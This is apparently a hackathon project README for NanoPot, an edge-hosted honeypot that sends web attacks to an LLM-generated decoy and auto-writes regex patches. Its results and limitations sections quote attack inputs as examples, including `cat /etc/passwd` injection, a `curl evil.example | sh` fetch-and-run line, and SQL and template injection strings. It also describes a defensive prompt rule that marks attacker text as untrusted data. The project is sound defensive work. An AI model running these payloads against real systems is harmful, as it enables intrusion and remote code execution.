

# NanoPot: The Shadow Alchemist

**An Edge AI honeypot that converts attacks into tested security patches.**

HP Wolf Security research shows cheap, AI-built attacks are beating static defenses. NanoPot is for the security engineer who is done blocking, logging, and forgetting: a honeypot on one **HP ZGX Nano** that turns every attack into a tested patch.

Every request is checked by **Jev** (TypeSafe's decision model) and by a model we **trained on the Nano**. New attacks are quietly redirected to a **decoy app** whose answers **Qwen3-Next-80B** writes live on the Nano, with fake credentials unique to each attacker. While the attacker is busy, the Nano writes a fix, tests it, has a **second AI (Gemma 4)** try to break it, stores it in **Redis**, and writes it into the app's code. The next attempt is blocked, and anyone who uses a stolen fake password is caught and traced.

| Read | What it is |
|---|---|
| [docs/NanoPot-Explained.pdf](docs/NanoPot-Explained.pdf) | Plain-language explainer with every architecture diagram |
| [docs/NanoPot-Metrics.pdf](docs/NanoPot-Metrics.pdf) · [docs/NanoPot-Charts.pdf](docs/NanoPot-Charts.pdf) | All measured results, as tables and as charts |
| [docs/NanoPot-Demo-Script.pdf](docs/NanoPot-Demo-Script.pdf) | The 2-minute demo script |
| [docs/benchmark-methodology.md](docs/benchmark-methodology.md) | Why each metric was chosen |

_Formerly codenamed Chameleon Edge: the Python package is still `chameleon/`, and the repo is `EdgeA1`._

## The problem

AI made attacks cheap: anyone can prompt an LLM for a new attack variant in seconds, and [HP Wolf Security](#references) documents low-effort, AI-built attacks slipping past current defenses. Most defenses still **block, log, and forget**:

- **Rules only know yesterday.** Static filters written for the old attack miss the new variant.
- **A block is a free hint.** A 403 tells the attacker they were seen and what to change next.
- **Nothing closes the gap.** The hole stays open until a human notices and writes a fix.
- **Attack data is sensitive.** Payloads, techniques, and logs shouldn't have to leave the building.

**Target user:** a security engineer or SOC analyst protecting a company application ("a cyber security professional" is one of HP's own example personas for this challenge).

## How it works, in five steps

1. **Check.** Every request is scored by Jev (asked first) and by our check model on the Nano; approved patches are checked too. Any signal flags it as an attack.
2. **Trick.** A new attack gets a **307 redirect to the decoy app**, which looks and answers like the real one. The 80B model on the Nano writes believable fake data and plants **honeytokens** (fake passwords, keys, cards) unique to that attacker.
3. **Learn.** In the background the 80B model writes a rule for that exact attack. It must pass **four deterministic tests**, then **Gemma 4** tries to break it; failures go back to the writer with the exact failing inputs, up to 5 tries.
4. **Block.** The approved patch is stored in **Redis**, enforced at the front door on the very next request, and **rendered as Python into the app's own code**. A stolen honeytoken is blocked and traced to the session that received it.
5. **Measure.** Every Nano AI call is also sent, unchanged, to **AWS Bedrock** running the same model, so edge and cloud cost, speed and tokens are compared on real traffic.

The protected shop (login, search, files, support chat) is a **demo target**; the product is the security layer in front of it.

## Results at a glance

All measured on one HP ZGX Nano (NVIDIA GB10) on Sep 25, 2026, with public benchmark and synthetic data. Raw numbers are in `results/`.

- **It learns an attack type it has never seen.** Path traversal is held out of the check model's training on purpose. First wave: **0%** caught. After one learned patch: **78% of 280 unseen payloads blocked, with 0 false positives on 6,434 normal requests**; the whole live run took 191 s (`results/redteam_scenario.json`).
- **Jev + Nano beat either alone.** In a live run of 13 real requests through the gateway, all 13 were routed correctly, and **Jev caught 5 attacks the Nano model scored as safe** (2 command injection, 2 path traversal, 1 SSRF). Jev answers in about 260–650 ms.
- **Nano vs AWS Bedrock, same model, same prompts:** the Nano is **~38–59× cheaper per request** (electricity only), AWS is slightly faster per request (7% at p50 in the latest run), and **AWS CloudWatch's own invocation and token counts matched ours call for call**. Buying a Nano pays off above roughly **6k–15k attacks/day**; one Nano handles about **107k requests/day**.
- **Patches land in about 40 s to 3 minutes** and generalize: a rule learned from `shoes; cat /etc/passwd` also blocked `bag; ls -la /home` and `x && curl evil.example | sh`, while `Tom & Jerry DVD; season 1` still reached the real app.
- **Two models trained on the Nano.** The check classifier scores **0.994 F1** (precision 99.85%, false-positive rate 0.09%) on 10,632 test requests. A **Qwen2.5-7B LoRA patch writer**, distilled from the 80B on the Nano, wrote **2.7× more fully passing rules than its base model** (10% vs 3.75%) on attack types it never saw, and cut false positives from 3.4% to 0% ([Hugging Face](https://huggingface.co/Yukta3030/chameleon-edge-patchwriter)).
- **Everything fits on one box:** the 80B writer (54.3 GB, NVFP4) and the 12B verifier (34.3 GB, BF16) serve side by side, 101.5 of 121.6 GB in use. The writer produces 36 tokens/s per stream and 169 tokens/s at 8 concurrent.

## Architecture



**Request path** (`chameleon/gateway/app.py`, `chameleon/router.py`, `chameleon/fusion.py`). Clients use the gateway on `:8000`. The router first checks every input against the honeytokens handed out so far (`honeypot/deception.py`), then asks **Jev** (`chameleon/jev/client.py`: one call to `typesafe-ai/jev` through Vercel AI Gateway asks "is this an attack?" and "what kind?"), then the **Nano check model**, then every **approved patch**. A request is malicious if any of them flags it. If Jev has no key, errors, or takes longer than `JEV_TIMEOUT_S` (2.5 s, one retry on a 5xx), the Nano decides alone, which is also how NanoPot runs with no internet. Safe requests are proxied to the demo apps; attacks get a 307 to the decoy with a new session id; stolen honeytokens and already-patched attacks get a 403. Jev's and the Nano's scores are logged for every request.

**Decoy** (`chameleon/decoy/app.py`, port 8300). Same four endpoints and JSON shapes as the real shop (it presents itself as "ShopLegacy"), but every answer is written live by Qwen from a persona prompt (`honeypot/persona.py`) seeded with that session's honeytokens. A cookie keeps a returning attacker in the same session, so the fake data stays consistent.

**Patches** (`chameleon/autopatch.py`, `chameleon/patch/`). Each honeypot hit queues a patch job, and a single worker runs them one at a time: writer → tests → verifier (`patch/pipeline.py`). Approved patches go to the **Redis patch store** (`patch/redis_store.py`: the rule, its rendered Python, the attack it learned from, the target file and every test result), and the front door enforces Redis's active set immediately, falling back to SQLite if Redis is down. `patch/integrate.py` then renders each approved rule into the matching app (`chameleon/apps/{login,search,files,chat}_app.py`) between `AUTO-PATCHES` markers; the demo app runs with `--reload`, so the code patch is live within seconds. The model only chooses the regex: the code comes from a fixed template, every value enters it as a Python string literal, and the file must compile before it replaces the old one.

**Metrics mirror** (`chameleon/cloud_mirror.py`). With METRICS_WITH_AWS on, every Qwen call on the Nano is also sent, with the identical prompt, to AWS Bedrock (`qwen.qwen3-next-80b-a3b`, us-west-2) in a background thread, so it never slows the live request. Each pair records tokens, latency, cost, and the Nano's GPU energy (`nvidia-smi`, sampled every second). The switch is shared by every service through `data/metrics_mode`.

## Nano vs AWS Bedrock

Latest run, 23 paired requests (decoy replies and patch writing), Qwen3-Next-80B on both sides:

| | HP ZGX Nano | AWS Bedrock |
|---|---|---|
| Latency p50 / p95 | 3,317 / 6,262 ms | 3,102 / 5,085 ms |
| Tokens per request (in → out) | 782 → 136 | 782 → 127 (identical input) |
| Cost per request | **$0.0000070** (measured energy × $0.2575/kWh) | $0.00027 on-demand · $0.00022 enterprise* |
| Energy per request | 98.5 J at 27.4 W average GPU draw | not visible |
| Attack data leaving the site | none | every prompt |

\* Enterprise = on-demand minus an assumed 20% negotiated discount; AWS publishes no provisioned price for this model.

An earlier run of 18 mostly long patch-writing prompts measured the Nano **59× cheaper** and AWS **2.2× faster**, with break-even at ~5.8k attacks/day. Shorter prompts make each AWS call cheaper, so the Nano needs more traffic to pay off; across both runs, **38–59× cheaper per request** and break-even at **~6k–15k attacks/day**. The monthly-cost projection spreads a $3,999 box over 36 months plus measured electricity.

**Independent check:** CloudWatch's own `Invocations`, `InputTokenCount` and `OutputTokenCount` for the model matched our log minute by minute. A presentation layout for that CloudWatch dashboard is in [docs/cloudwatch-dashboard.json](docs/cloudwatch-dashboard.json) (paste it in via *Actions → View/edit source*).

## Attacks and defenses

| Layer | Defense |
|---|---|
| Isolation | Every service binds to `127.0.0.1`; the gateway is the only front door, and nothing is exposed to the public internet |
| Deception | The decoy serves only fake data. Each session gets unique honeytokens (`honeypot/deception.py`), so a stolen one identifies exactly which attacker took it |
| Canary tokens | The demo apps hold fake canary secrets (`apps/files_app.py`, `apps/login_app.py`). If one appears in a response, an attack the checks missed reached the real app |
| Prompt injection | Attacker text is always marked "untrusted data, not instructions" in every prompt, to Jev, the decoy, the writer, and the verifier |
| Patch safety | A patch is applied only after all four deterministic tests pass: **replay** (blocks every captured payload), **URL-encoding** (blocks their encoded forms too), **normal traffic** (blocks no real user input, including a fixed list of realistic inputs that use attack characters, `autopatch.HARD_NEGATIVES`) and **ReDoS**. Then an independent verifier reviews it. Every attempt is versioned and can be rolled back |
| ReDoS | Model-written regexes run on every request. Rules run on the `regex` engine with a **50 ms per-match cap that fails closed**, and every candidate must finish 2 KB adversarial inputs inside that budget before approval |
| Accountable verifier | The verifier must back every objection with literal example inputs, and the pipeline runs them. Claims that don't hold up are discarded; confirmed bypasses go back to the writer |
| Verifier isolation | The verifier sees only the proposed rule, a sample of the attack (both marked untrusted) and our test measurements, never the writer's reasoning or the attacker's conversation |
| Code-patch safety | Rendered from a fixed template with string literals only, compile-checked, atomic file replace; the model never writes code |
| Fallbacks | Jev down or slow → the Nano decides; Redis down → SQLite; a bad pattern → fails closed. Each is covered by unit tests |

## Training pipeline on the Nano

The **check model** (`chameleon/check/`) is a TF-IDF + logistic-regression classifier trained from scratch on the Nano (`make train-check`, 3.2 s on 22,098 rows) from [HttpParamsDataset](https://github.com/Morzeux/HttpParamsDataset), [deepset/prompt-injections](https://huggingface.co/datasets/deepset/prompt-injections) and [jackhhao/jailbreak-classification](https://huggingface.co/datasets/jackhhao/jailbreak-classification). Path traversal is deliberately excluded (`HELDOUT_ATTACK_TYPES` in `check/dataset.py`), so recall on it is **0%**: a real blind spot that the learning loop closes live (`python -m chameleon.redteam.scenario`, or LAUNCH_ATTACK_WAVE on the dashboard).

| Test set | Requests | Precision | Recall | False-positive rate |
|---|---|---|---|---|
| All test data | 10,632 | 99.85% | 98.96% | 0.09% |
| HttpParams (web attacks) | 10,258 | 99.97% | 99.5% | 0.02% |
| jackhhao (jailbreaks) | 258 | 96.4% | 97.8% | 4.1% |
| deepset (prompt injection) | 116 | 100% | 66.7% | 0% |

### Fine-tuned patch writer (`training/`)

A **LoRA fine-tune of Qwen2.5-7B-Instruct**, distilled from the 80B writer entirely on the Nano:

1. **Verified data** (`generate_data.py`): the 80B teacher wrote 500 rules; a rule was kept only if it passed the production tests plus ≤1% false positives on 300 unseen benign requests: **230 kept**.
2. **Training** (`train_lora.py`): r=16 on all attention and MLP projections, bf16, 2 epochs, **17.7 min on the GB10, 20.4 GB peak**. Validation loss 0.678 → 0.642.
3. **Evaluation** (`eval_patchwriter.py`): 80 tasks on **command injection and path traversal, both excluded from training**, scored by the deterministic tests.

| | Base Qwen2.5-7B | **Fine-tuned 7B** | 80B teacher |
|---|---|---|---|
| Rule fully passes | 3.75% | **10.0%** | 13.75% |
| Recall on unseen payloads | 34.8% | **46.5%** | 50.2% |
| False-positive rate | 3.4% | **0.0%** | 0.01% |
| Valid output | 90% | **65%** | 85% |

The fine-tune closes most of the gap to a model ~10× its size; its weakness is repetition loops on about a third of outputs, which the pipeline's retries absorb. [Adapter and model card on Hugging Face.](https://huggingface.co/Yukta3030/chameleon-edge-patchwriter)

## Benchmarks

Measured on the Nano with both LLMs and the check model serving (`results/llm_baseline.csv`, `results/system_memory.json`):

| Model | 1 stream | 4 concurrent | 8 concurrent | Memory |
|---|---|---|---|---|
| Writer: Qwen3-Next-80B-A3B, **NVFP4** | 36 tok/s, p50 0.71 s | 109 tok/s | 169 tok/s, p50 1.16 s | 54.3 GB |
| Verifier: Gemma 4 12B, **BF16** | 7.5 tok/s, p50 3.45 s | 34 tok/s | 62 tok/s, p50 3.01 s | 34.3 GB |
| Check model | ~1 ms per request | | | CPU |

The 80B model is ~5× faster per stream than the 12B one: decoding on the GB10 is memory-bandwidth bound, and the MoE reads only ~3B active parameters at 4 bits per token, while the dense 12B reads all its BF16 weights. The obvious next step is an NVFP4 verifier (for example `RedHatAI/gemma-4-12B-it-NVFP4`, ~10 GB, or `nvidia/Gemma-4-26B-A4B-NVFP4`); it isn't switched yet.

## The dashboard

`http://127.0.0.1:8100` (from a laptop: `ssh -N -L 8100:localhost:8100 -L 8000:localhost:8000 -L 8300:localhost:8300 hp4@<tailscale-ip>`).

- **HOME**
  - **PAYLOAD_INJECTOR**: a terminal with attack presets (Auth_Bypass, DB_Dump, XSS_Infect, Prompt_Inject, Path_Traversal, Use_Stolen_Creds, normal traffic). Each request shows Jev's and the Nano's scores, the routing decision, and what the attacker received.
  - **HACKER'S_POV**: the shop as the attacker sees it, including decoy replies (database-style tables are drawn as real tables), with an operator-only strip below.
  - **ACTIVE_DEFENSE_RULES**: the AUTO_PATCH_ENGINE (LEARNING / MITIGATED, with a small fight between the attacker and NanoPot that ends in a K.O. when the patch is approved), the base check model, and every approved patch. Click a patch to see its Python code and full test trail.
  - **LAUNCH_ATTACK_WAVE** (the 0% → 78% run), **RESET** (clears sessions, logs, live patches; the patch history stays in Redis), **REDIS CLEAR** (deletes NanoPot's Redis data and retires live patches).
- **METRICS**: Nano vs AWS side by side (requests, latency, tokens, cost, energy), the cost-at-scale chart, and every paired request.

## Quick start

```bash
python3 -m venv .venv && source .venv/bin/activate
cp .env.example .env          # HF_TOKEN; AWS keys for the Bedrock comparison
echo 'AI_GATEWAY_API_KEY=…' > .env.local   # Vercel AI Gateway key, used for Jev (git-ignored)
make setup && make data && make train-check && make test   # 110 tests

make serve-redis              # Redis patch store on :6379 (scripts/serve_redis.sh; built from source, password in .env)
make serve-check              # check model on :8010
make serve-demo               # the four demo apps on :8200 (reloads when a code patch lands)
make serve-decoy              # decoy app on :8300
make serve-gateway            # front door on :8000
make serve-dashboard          # dashboard + API on :8100
```

After changing backend code, restart the dashboard, gateway **and** decoy: patch jobs run inside whichever service received the attack, and decoy replies are generated in the decoy process.

`scripts/show_patches.sh` prints the patches in Redis (`all` for recent attempts, `watch` to see them arrive live). `index.ts` is a Vercel AI SDK smoke test for the gateway key (`npm run example`, Node 22).

## ZGX Nano setup (zrt / model serving)

```bash
uname -m; nvidia-smi; zrt status; zrt models           # sanity check
zrt pull hf:nvidia/Qwen3-Next-80B-A3B-Instruct-NVFP4   # decoy + patch writer, ~51 GB
zrt pull hf:google/gemma-4-12B-it                       # patch verifier, ~24 GB
scripts/serve_models.sh   # both behind one proxy on :8080, routed by model name
```

Every flag in `scripts/serve_models.sh` fixed a real failure on the Nano (details in `HANDOFF.md` 5.4 and 6.4): `--max-model-len=8192` (the 80B defaulted to 262k context and OOM'd), `MAX_JOBS=4` (FlashInfer's first-run kernel build got OOM-killed), explicit memory fractions 0.45 / 0.25 (auto-sizing starved the verifier), and refusing to start while `zrt services` isn't empty (a proxy race deregistered fresh backends).

## API

- **Gateway** (`:8000`): `POST /login`, `GET /search?q=`, `GET /files?name=`, `POST /chat`. Safe → proxied to the app; attack → 307 to the decoy; stolen honeytoken or patched attack → 403.
- **Decoy** (`:8300`): the same four endpoints, answered by Qwen; session from `?cs=`, the `X-Chameleon-Session` header, or a cookie.
- **Demo apps** (`:8200`): the same four endpoints plus `GET /patches` (the code patches each app has loaded).
- **Check model** (`:8010`): `GET /health`, `POST /check {"inputs": [...]}` → `{"malicious", "score", "worst_input_index", "latency_ms"}`.
- **Dashboard API** (`:8100`): `POST /api/try` (one request through the real path, as the dashboard sends it), `GET /api/summary|requests|sessions|patches|patch-jobs|patch-store|llm_calls|infra|honeytokens/latest`, `GET /api/compare` + `POST /api/compare/mode` (Nano vs AWS), `POST /api/scenario/start` + `GET /api/scenario/status` (attack wave), `POST /api/demo/reset`, `POST /api/redis/clear`, `WS /ws`.

## Repository map

| Path | What's there |
|---|---|
| `chameleon/gateway/`, `router.py`, `fusion.py` | Front door, routing, decision fusion |
| `chameleon/jev/` | Jev client (Vercel AI Gateway or TypeSafe API) |
| `chameleon/check/` | Check model: dataset, training, serving |
| `chameleon/decoy/`, `honeypot/` | Decoy app, persona prompt, honeytokens, sessions |
| `chameleon/autopatch.py`, `patch/` | Patch jobs, writer, tests, verifier, pipeline, Redis store, code rendering |
| `chameleon/apps/`, `demoapp/` | The four demo apps with their AUTO-PATCHES blocks |
| `chameleon/cloud_mirror.py` | Nano vs AWS Bedrock measurement |
| `chameleon/api/`, `dashboard/` | Dashboard backend and single-file UI |
| `chameleon/redteam/` | Scripted attack wave |
| `training/` | LoRA data generation, training, evaluation, upload |
| `results/`, `docs/` | Raw measurements; PDFs, methodology, CloudWatch layout |
| `tests/` | 110 unit tests (pytest, fakeredis) |

## Safety boundaries

- No real user data anywhere: products, accounts and files are fabricated, and canary tokens make any leak detectable.
- The only "attacker" is our own red-team script and our own test requests, never anything outside this project.
- Services are localhost-only; the Nano is not exposed to the internet.
- Keys live in git-ignored `.env` / `.env.local`; the AWS key is least-privilege (Bedrock invoke plus read-only CloudWatch).

## Status and known limitations

- [x] Check model, decoy, patch writer, verifier and pipeline, live on real models
- [x] Gateway, decoy app, honeytokens and stolen-credential detection
- [x] Jev live through Vercel AI Gateway, with the Nano as fallback
- [x] Redis patch store; patches rendered as Python into the four apps
- [x] Nano vs AWS Bedrock comparison, cross-checked against CloudWatch
- [x] LoRA fine-tune on the Nano, evaluated and published
- [ ] The fine-tuned 7B isn't the production writer yet (ZRT's proxy doesn't route LoRA adapters; it needs the backend-socket route)
- [ ] The verifier isn't NVFP4 yet (see Benchmarks)

**Known weaknesses, measured:**
- Some attacks pass both checks: `shoes && id` (Jev 0.27, Nano 0.45) and `{{7*7}}` (Jev 0.29).
- Jev sent one real customer message ("Please ignore my last message, I meant order #4417", 0.69) to the decoy.
- A learned rule once blocked any `;` or `|`, so "Tom & Jerry DVD; season 1" got a 403. The normal-traffic test now always includes such inputs, and the rule was rolled back and re-learned.
- Some approved patches carry a known bypass that Gemma found (for example `UNION/**/SELECT`); it's recorded on the patch as `approved_with_known_issues`, not hidden.
- Regex rules generalize well to structured attacks and poorly to natural-language ones, so prompt injection relies mainly on the classifiers and the decoy.
- Decoy replies that invent a whole file can take up to 25 s; the 307 redirect reveals a different port to a careful attacker.
- One day, one Nano, public and synthetic data: none of this describes enterprise-scale performance.

## References

- HP research this project builds on (not "HP published this exact idea"):
  - [Low-effort AI-built attacks beating defenses](https://www.hp.com/us-en/newsroom/press-releases/2026/hp-research-low-effort-ai-attacks-beating-defenses.html)
  - [Cybercriminals leaning into agentic AI](https://www.hp.com/us-en/newsroom/press-releases/2026/hp-research-cybercriminals-leaning-into-agentic-ai-momentum-to-steal-crypto-wallets.html)
  - [HP Wolf Security Threat Insights Report, September 2026](https://threatresearch.ext.hp.com/hp-wolf-security-threat-insights-report-september-2026/)
- [Unit 42: indirect prompt injection in the wild](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)
- [TypeSafe Jev](https://docs.typesafe.ai/introduction/quickstart) · [Vercel AI Gateway](https://vercel.com/docs/ai-gateway/sdks-and-apis/ai-sdk)

## Team

HP Edge AI SJSUHack, Secure AI track: Yukta Vajpayee, Karthik Pragada, Poushali Deb Purkayastha, Garvit Sharma, Arpana Singh. Full design history and every decision's rationale: `HANDOFF.md`.
